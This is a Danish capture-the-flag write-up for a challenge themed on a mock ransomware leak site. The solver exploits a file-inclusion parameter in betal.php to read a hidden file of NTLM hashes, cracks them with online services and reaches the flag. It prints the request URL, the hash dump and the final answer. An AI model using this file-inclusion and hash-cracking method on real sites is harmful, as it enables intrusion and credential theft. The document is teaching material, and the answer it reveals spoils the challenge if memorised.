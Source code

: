 # Opgave

I et dristigt hack-back forsøg efter Jætterne har krypteret Æsirne, er du blevet udvalgt til at afdække svagheder hos den frygtede ransomwaregruppe JætteBit 2.0. Gruppen skulle angiveligt have terroriseret organisationer verden over, og nu er det tid til at gøre en ende på dem en gang for alle.

Din mission er simpel:
Søg med lys og lygte efter cleartext credentials som kan bidrage til hack-back missionen. Måske har de været så ivrige efter at offentliggøre deres ofre, at de har glemt deres egen sikkerhed som kunne afsløre brugernavne, adgangskoder eller andre følsomme data, gemt i hemmelige filer.

Navigér forsigtigt på deres hjemmeside hvor de lækker data. Men vær varsom – jætterne er eksperter i at opsætte fælder for dem, der kommer for tæt på.

Held og lykke, og må du være den, der bringer Ragnarok til JætteBit 2.0!

Sitet kan findes på http://p9x6m4b2vqz7htfj.onion.jættenettet.dk

Flag er i formatet FDCA{username:password}


---

# Løsning

Hjemmesiden er en kopi af LockBits hjemmeside, hvor man kan betale løsesummen. Trykker man for at betale kommer man ind på siden: `http://jættenettet.dk/betal.php?file=betal.html`, hvor man i Inspector kan se at der er en kommentar i koden: `<!-- ja vi bruger admin:admin -->`. Jeg forsøger med dette som flaget, men det er ikke korrekt.

Jeg kigger derefter på robots.txt og finder hvor der står Disallow: /backend/.

Jeg går til dette link og her er der en masse forskellige træls ting der kører på siden. Den downloader en masse billeder, åbner en masse nye vinduer, som er svære og lukke og så videre. Dette må betyde vi er på den rette vej.

I Debugger er der en fil der hedder index.js med dette stykke kode: `const hemmelige_filer = [
  'intern/hashrevision/jaette_ntds_hashes.txt'
]`

Går man til denne sti får man 403 Forbidden.

Jeg lagde dog mærke til at siden hvor man kan betale er filen specificeret i URL og jeg prøver derfor at ændrer URL til `http://jættenettet.dk/betal.php?file=intern/hashrevision/jaette_ntds_hashes.txt` og her får jeg en masse brugernavne og hashes:

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:6c569aabbf7775ef8fc570e228c16b98:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
jotunheimr:1001:aad3b435b51404eeaad3b435b51404ee:8d777f385d3dfec881f3f8e2d7b2b93b:::
surt:1002:aad3b435b51404eeaad3b435b51404ee:c4ca4238a0b923820dcc509a6f75849b:::
ymer:1003:aad3b435b51404eeaad3b435b51404ee:2c6ee24b09816a6f14f95d1698b24ead:::
skadi:1004:aad3b435b51404eeaad3b435b51404ee:9c56f361f0b66d4b2f4db0b74a5b5c2f:::
loki:1005:aad3b435b51404eeaad3b435b51404ee:9e107d9d372bb6826bd81d3542a419d6:::
angrboða:1006:aad3b435b51404eeaad3b435b51404ee:bad0c6db35173c1b63459db6a1a2a22e:::
fafnir:1007:aad3b435b51404eeaad3b435b51404ee:1f54deae0f9a2ba375c724235ffaaefd:::
hel:1008:aad3b435b51404eeaad3b435b51404ee:9d5ed678fe57bcca4ec8b7b6d4b1e3b7:::
krbtgt:65534:aad3b435b51404eeaad3b435b51404ee:bfb8d96e5176b084ee453de1e6d5a1d0::: 
```
Jeg smider alle hashes ind i crackstation og hashes.com og får følgende passwords:
```
2c6ee24b09816a6f14f95d1698b24ead:openai
31d6cfe0d16ae931b73c59d7e0c089c0:
6c569aabbf7775ef8fc570e228c16b98:password!
9e107d9d372bb6826bd81d3542a419d6:The quick brown fox jumps over the lazy dog
c4ca4238a0b923820dcc509a6f75849b:1
1f54deae0f9a2ba375c724235ffaaefd:netcompany123
```
Jeg prøver alle kombinationer af brugernavne og passwords og får et hit med **fafnir:netcompany123**

Flaget er dermed FDCA{fafnir:netcompany123}


---
